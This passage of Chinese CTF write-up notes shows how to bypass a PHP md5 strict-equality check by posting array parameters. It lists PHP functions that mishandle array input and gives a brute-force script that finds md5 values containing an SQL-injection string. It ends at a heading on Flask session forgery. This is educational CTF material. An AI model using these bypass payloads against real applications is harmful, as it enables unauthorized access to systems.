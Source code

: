 构造levels91.php?a=QNKCDZO&b=s878926199a，发现又跳转到新的页面levell14.php

```php
<?php
error_reporting(0);
include "flag.php";

highlight_file(__FILE__);

if($_POST['param1']!==$_POST['param2']&&md5($_POST['param1'])===md5($_POST['param2'])){
    echo $flag;
}
```

强类型比较，需要1.强碰撞：**找到两个md5值相同的字符串即可**/2.绕过：**数组绕过**

```php
md5(array()) = null

//更多：
sha1(array()) = null    
ereg(pattern,array()) = null vs preg_match(pattern,array) = false
strcmp(array(), "abc") = null
strpos(array(),"abc") = null
```

payload：

```
param1[]=&param2[]=2
```

<img src="https://pb-1307852621.cos.ap-chengdu.myqcloud.com/typora/img/image-20220222002727828.png" alt="image-20220222002727828" style="zoom: 67%;" />

#### 如何找到特定开头的md5值？

> [**大佬博客](https://www.cnblogs.com/yesec/p/12535534.html)

```php
<?php 
for ($i = 0;;) { 
 for ($c = 0; $c < 1000000; $c++, $i++)
  if (stripos(md5($i, true), '\'or\'') !== false)
   echo "\nmd5($i) = " . md5($i, true) . "\n";
 echo ".";
}
?>

//引用于 http://mslc.ctf.su/wp/leet-more-2010-oh-those-admins-writeup/
```



## [HCTF 2018]admin(**)

#### 考点:flask、客户端session伪造
